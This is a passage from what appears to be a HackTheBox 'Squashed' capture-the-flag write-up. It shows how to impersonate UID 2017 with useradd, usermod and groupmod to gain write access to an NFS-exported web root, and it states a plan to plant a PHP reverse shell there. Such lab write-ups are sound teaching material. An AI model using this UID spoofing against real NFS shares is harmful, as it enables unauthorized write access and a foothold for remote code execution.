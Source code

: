 ## NFS Imitation
The plan now is to imitate the user with the UID of 2017 , try adding a php file containing our reverse shell to the webserver and then use our browser to trigger it.
We start by creating a new user on our local machine, and assign them the respective UID.

```bash
sudo useradd xela
```

This user will by default have a UID/GID of the highest ID found in /etc/passwd , plus one. Usually this will be 1001 . To change the UID, we run the following command:

```bash
sudo usermod -u 2017 xela
```
In theory, we can leave the GID as is, but for complecity's sake we can change it as follows, using groupmod .

```bash
sudo groupmod -g 2017 xela
```

We can verify our new user's data by taking a look at our /etc/passwd file.

```bash
┌──(root㉿kali)-[/home/…/Documents/CTFs/HackTheBox/Squashed]
└─# cat /etc/passwd | grep xela
xela:x:2017:2017::/home/xela:/bin/sh
```

Having created our impostor user, we should now be able to interact with the share mounted on /mount/1 ,namely /var/www/html , by using su to run commands as xela.

```bash
sudo su xela
```

and now we can read and write to the file system

```bash
xela@kali:/mnt$ id
uid=2017(xela) gid=2017(xela) groups=2017(xela)
xela@kali:/mnt$ cd 1
xela@kali:/mnt/1$ ls
css  images  index.html  js
xela@kali:/mnt/1$ ls -sail
total 52
 133456  4 drwxr-xr-- 5 xela www-data  4096 Apr 25 10:35 .
1835009  4 drwxr-xr-x 5 root root      4096 Apr 25 10:12 ..
 157034  4 drwxr-xr-x 2 xela www-data  4096 Apr 25 10:35 css
 157035  4 drwxr-xr-x 2 xela www-data  4096 Apr 25 10:35 images
 132693 32 -rw-r----- 1 xela www-data 32532 Apr 25 10:35 index.html
 157036  4 drwxr-xr-x 2 xela www-data  4096 Apr 25 10:35 js
xela@kali:/mnt/1$ 

```
